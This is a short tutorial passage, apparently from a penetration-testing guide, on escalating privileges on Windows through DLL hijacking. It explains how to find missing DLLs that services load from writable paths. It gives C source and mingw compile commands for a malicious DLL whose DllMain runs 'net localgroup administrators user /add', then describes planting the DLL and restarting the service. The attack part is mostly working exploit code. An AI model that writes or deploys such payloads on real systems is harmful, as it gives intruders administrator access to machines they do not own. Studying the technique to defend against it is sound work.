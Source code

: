 
When windows starts up a service or an application, it looks for the relevant `.dll` files for that particular application/service. If one of these dlls do not exist in a writable path, we can exploit it to execute a malicious payload crafted as a dll.

For this example, we are going to take a shortcut and use the Process Monitor (`ProcMon`) application to identify which `.dll` files are missing. The issue with this approach is we already need to have admin rights to run this application.

In a real world scenario we can use an automated script such as `Powersploit` to automatically identify such services and .dll files.

```C
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Now we simply need to save this dll in the location we identifies with the correct name are restart the service.